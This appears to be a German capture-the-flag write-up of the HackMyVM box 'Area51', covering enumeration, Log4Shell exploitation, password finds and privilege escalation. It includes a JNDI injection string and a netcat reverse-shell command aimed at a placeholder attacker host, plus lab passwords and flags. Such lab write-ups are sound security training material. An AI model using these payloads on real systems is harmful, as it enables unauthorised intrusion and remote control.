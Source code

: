 # Area51 - HackMyVM Writeup

![Area51 Icon](Area51.png)

## Übersicht

*   **VM:** Area51
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Area51)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 20. Juni 2025
*   **Original-Writeup:** https://alientec1908.github.io/Area51_HackMyVM_Medium/
*   **Autor:** Ben C.

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Area51" erforderte zunächst eine gründliche Enumeration der offenen Dienste, insbesondere der Webserver auf den Ports 80 und 8080. Ein entscheidender Hinweis wurde in einer Textdatei auf Port 80 gefunden, der auf eine Log4J-Schwachstelle in einer Java-Anwendung auf Port 8080 hindeutete. Die erfolgreiche Ausnutzung dieser Schwachstelle führte zu einer initialen Root-Shell.

Von der initialen Root-Shell aus wurden Systeminformationen gesammelt, wobei versteckte Dateien durchsucht und ein Passwort für den Benutzer `roger` gefunden wurde. Dies ermöglichte den Zugang via SSH.

Als Benutzer `roger` wurde das System weiter erkundet. Dabei wurde ein weiterer Benutzer (`kang`) und eine kritische Schwachstelle in den Dateiberechtigungen (`/etc/pam.d/kang`) gefunden, die ein Passwort für `kang` enthielt und roger Schreibrechte gab. Nach dem Wechsel zum Benutzer `kang` wurde eine globale Schreibberechtigung auf `/usr/bin/rm` ausgenutzt, um diesen durch eine Reverse Shell zu ersetzen und so die endgültige Root-Privilegieneskalation zu erreichen.

## Technische Details

*   **Betriebssystem:** Debian (basierend auf Nmap-Erkennung und SSH-Banner)
*   **Offene Ports:**
    *   `22/tcp`: SSH (OpenSSH 8.4p1 Debian 5)
    *   `80/tcp`: HTTP (Apache httpd 2.4.51)
    *   `8080/tcp`: HTTP (Nagios NSCA / vermutete Java/Spring-Anwendung)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP im Netzwerk.
2.  **Nmap Scan:** Ermittlung offener Ports und Dienste. Ports 22, 80 und 8080 waren offen.
3.  **Web Enumeration (Port 80):**
    *   `curl`: Überprüfung der Header.
    *   `nikto`: Fund von fehlenden Sicherheits-Headern, ETag-Informationen und veralteter Apache-Version.
    *   `gobuster`: Entdeckung der Verzeichnisse `/video`, `/radar`, `/moon` und der Datei `/note.txt`.
    *   `/note.txt` enthielt den kritischen Hinweis: "Alert! We have a vulnerability in our java application... Notify the programming department to check Log4J."
    *   Die Webseite auf Port 80 zeigte ein FBI-Login-Formular, das jedoch client-seitig via JavaScript (`script.js`) validierte und keine serverseitige Authentifizierung durchführte.
4.  **Web Enumeration (Port 8080):**
    *   `curl`: Zeigt "Whitelabel Error Page" bei direktem Zugriff.
    *   `nikto`: Fehlende Sicherheits-Header, erlaubte HTTP-Methoden wie `PUT` und `DELETE`, was auf potenzielle Risiken hindeutet.
    *   `gobuster`: Findet das `/error`-Verzeichnis.
    *   Basierend auf `note.txt` und dem Dienst (Nagios NSCA, oft in Java-Umgebungen) wurde Log4J als potenzielle Schwachstelle auf Port 8080 vermutet.

## Ausnutzung (Initialer Zugriff - Root)

1.  **Log4J Schwachstelle:** Die Vermutung bestätigte sich. Die Java-Anwendung auf Port 8080 war anfällig für Log4J JNDI Injection (CVE-2021-44228).
2.  **Payload Vorbereitung:** Eine Reverse Shell Java-Klasse (`Exploit.java`) wurde erstellt und kompiliert. Tools wie `marshalsec` oder `log4j-shell-poc` wurden vorbereitet, um einen bösartigen LDAP/HTTP-Server aufzusetzen, der die kompilierte Klasse ausliefert.
3.  **Exploit Trigger:** Durch das Senden eines JNDI-Strings, z.B. `${jndi:ldap://ANGREIFER_IP:1389/a}`, in einem anfälligen Header wie `X-Api-Version` an Port 8080 wurde die Schwachstelle getriggert. Die Anwendung führte den JNDI-Lookup aus, verband sich mit dem bösartigen LDAP-Server, der auf den HTTP-Server des Angreifers verlinkte, woraufhin die `Exploit.class` geladen und die Reverse Shell ausgeführt wurde.
4.  **Ergebnis:** Eine Reverse Shell wurde auf dem Lauschport des Angreifers (Port 4444 im Beispiel) als Benutzer `root` empfangen.

## Post-Exploitation & Lateral Movement (Root -> roger -> kang)

1.  **Erste Root-Shell:** Nach Erhalt der Root-Shell wurde das Dateisystem erkundet. Die Suche nach versteckten Dateien mittels `find / -type f -name ".*" 2>/dev/null` enthüllte die Datei `/var/tmp/.roger`.
2.  **Passwortfund:** Der Inhalt von `/var/tmp/.roger` war `b3st4l13n`, was wie ein Passwort aussah.
3.  **Zugang als Benutzer `roger`:** Basierend auf dem Dateinamen und dem gefundenen Passwort wurde versucht, sich via SSH als Benutzer `roger` anzumelden. Dies war erfolgreich.
4.  **Erkundung als `roger`:** Als `roger` wurde weiter nach Schwachstellen gesucht. `sudo -l` zeigte, dass `roger` keine sudo-Berechtigungen hatte. Die Suche nach global schreibbaren Dateien (`find / -type f -perm -o=w 2>/dev/null`) enthüllte unter anderem `/usr/bin/rm`.
5.  **Fund von Benutzer `kang`:** Die Suche nach dem String "kang" im `/etc`-Verzeichnis mittels `grep -r "kang" /etc` offenbarte die Existenz des Benutzers `kang` und die Datei `/etc/pam.d/kang`.
6.  **Schwachstelle in `/etc/pam.d/kang`:** Die Berechtigungen für `/etc/pam.d/kang` (`-rwxrwx--- 1 roger roger`) zeigten, dass der Benutzer `roger` Schreib- und Ausführungsrechte für diese Datei besaß.
7.  **Passwort für `kang`:** Der Inhalt von `/etc/pam.d/kang` war `k4ng1sd4b3st`.
8.  **Wechsel zu Benutzer `kang`:** Mit dem gefundenen Passwort wurde erfolgreich mittels `su kang` zum Benutzer `kang` gewechselt.
9.  **Erkundung als `kang`:** Als `kang` wurde erneut `sudo -l` geprüft, was ebenfalls keine sudo-Berechtigungen zeigte.

## Privilegieneskalation (kang -> Root)

1.  **Ausnutzung schreibbarer `/usr/bin/rm`:** Als Benutzer `kang`, der indirekt (über die globale Schreibberechtigung, gefunden als `roger`) auf `/usr/bin/rm` schreiben konnte, wurde die Datei `/usr/bin/rm` durch einen Reverse Shell Payload ersetzt (`echo 'nc ANGREIFER_IP 9001 -e /bin/bash' > /usr/bin/rm`).
2.  **Trigger:** Es ist anzunehmen, dass ein Prozess oder ein Nutzer mit Root-Rechten anschließend den Befehl `rm` ausführte, was dazu führte, dass stattdessen der Reverse Shell Payload ausgeführt wurde.
3.  **Ergebnis:** Eine zweite Root-Shell wurde auf dem Lauschport des Angreifers (Port 9001 im Beispiel) empfangen.

## Flags

*   **user.txt:** `ee11cbb19052e40b07aac0ca060c23ee` (Gefunden unter `/home/roger/user.txt`)
*   **root.txt:** `63a9f0ea7bb98050796b649e85481845` (Gefunden unter `/root/root.txt`)

---

Dieses Writeup wurde erstellt von [Ben C. - Cyber Security Reports](https://alientec1908.github.io/Area51_HackMyVM_Medium/).
